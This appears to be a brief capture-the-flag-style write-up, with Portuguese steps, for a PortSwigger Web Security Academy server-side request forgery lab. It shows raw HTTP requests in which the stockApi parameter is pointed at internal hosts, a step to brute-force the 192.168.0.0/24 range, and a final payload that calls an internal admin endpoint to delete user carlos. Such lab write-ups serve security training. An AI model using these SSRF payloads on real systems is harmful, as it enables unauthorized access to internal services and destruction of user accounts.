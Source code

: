 Original request:

<pre>
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=<b>http://192.168.0.68/admin</b>
</pre>

1. Utilize o Intruder para fazer brute-force no escopo do IP apresentado. (192.168.0.0/24)
2. Encontre o host que tenha uma resposta **200**.
3. Delete a conta **carlos**.

Modified request:

<pre>
POST /product/stock HTTP/1.1
Host: ac651f621f1a3dbf80711543008b00f0.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac651f621f1a3dbf80711543008b00f0.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: https://ac651f621f1a3dbf80711543008b00f0.web-security-academy.net
Content-Length: 63
Connection: close
Cookie: session=yFkvTJbphy0CMHlIcToEFFcRsLK4kFG7

stockApi=<b>http://192.168.0.245:8080/admin/delete?username=carlos</b>
</pre>
